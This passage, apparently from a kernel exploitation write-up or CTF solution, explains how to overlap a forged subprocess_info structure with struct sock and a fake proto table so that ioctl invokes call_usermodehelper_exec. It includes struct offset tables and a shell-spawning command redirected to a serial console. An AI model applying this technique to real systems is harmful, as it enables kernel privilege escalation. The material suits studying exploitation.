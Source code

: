 #### Overlapping subprocess_info <a name="overlap_subprocess_info"></a>
As we established, our `subprocess_info` will need to overlap with the start of the `sock` object as the first argument of the `ioctl` is `sock *`. However, the first 136 bytes of `struct sock` are occupied by  `struct sock_common`. 

```txt
struct sock[sock_common]      | subprocess_info
============================================================
0x0: skc_addrpair             | work.data
0x8: skc_hash, skc_u16hashes  | work.entry.next
0x10: skc_portpair, ..., ...  | work.entry.prev
0x18: skc_bind_node[0:7]      | work.func
0x20: skc_bind_node[8:15]     | complete
0x28: skc_prot (struct proto) | path
0x30: skc_net                 | argv
0x38: skc_v6_daddr            | envp
0x40: *padding*               | wait, retval
0x48: skc_v6_rcv_saddr[0:7]   | *init
0x50: skc_v6_rcv_saddr[8:15]  | *cleanup
0x58: skc_cookie              | data
============================================================
```

As we see the value of `skc_prot` overlaps with `path`. If we set `path` to anything else we will be overwriting `skc_prot` which will break our exploit as we need `skc_prot` to point to our fake `proto` structure at the end of `sock` proper. So, can we overlap `path` with the start of our `proto` structure?

```c
struct proto {
	void                       (*close)(struct sock *, long int); /*     0     8 */
	int                        (*pre_connect)(struct sock *, struct sockaddr *, int); /*     8     8 */
	int                        (*connect)(struct sock *, struct sockaddr *, int); /*    16     8 */
	int                        (*disconnect)(struct sock *, int); /*    24     8 */
	struct sock *              (*accept)(struct sock *, int, int *, bool); /*    32     8 */
	int                        (*ioctl)(struct sock *, int, long unsigned int); /*    40     8 */
	...
};
```
The only value in `proto` we need to keep is `ioctl` as it holds `call_usermodehelper_exec`. We don't care about all other values as we won't be connecting, disconnecting or closing the socket - so we can freely write over those members. This leaves us with 40 bytes free at the start of `proto` for our path. More than enough :)

#### Setting up the arguments <a name="arguments"></a>
We also need to set up our arguments for `subprocess_info`. Our goal is to execute something like `/bin/sh -c /bin/sh &>/dev/ttyS0 </dev/ttyS0`. Let's break it down.
```
/bin/sh -c /bin/sh &>/dev/ttyS0 </dev/ttyS0
 ^      ^  |______________________________|	
 |      |               |
 |      |               |
path   arg1            arg2
arg0	
```
We are essentially asking `/bin/sh` to spawn us another `/bin/sh` process but we redirect its `stdin` and `stdout` to our virtual console/serial port. 
